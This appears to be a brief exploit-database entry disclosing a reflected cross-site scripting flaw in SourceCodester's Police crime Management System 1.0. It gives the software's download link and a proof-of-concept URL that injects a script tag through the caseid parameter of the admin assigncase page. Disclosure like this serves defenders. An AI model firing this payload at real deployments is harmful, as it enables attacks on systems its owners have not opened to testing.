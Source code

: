 Exploit Title:Police crime Management System 1.0
Date: [date]：August 6, 2021
Exploit Author: yyds
Vendor Homepage: www.sourcecodester.com
Software Link:https://www.sourcecodester.com/sites/default/files/download/oretnom23/ghpolice.zip
Version: [app version] ：version 1.0
poc:192.168.50.200/ghpolice/admin/assigncase.php?caseid="><script>alert(1)</script>

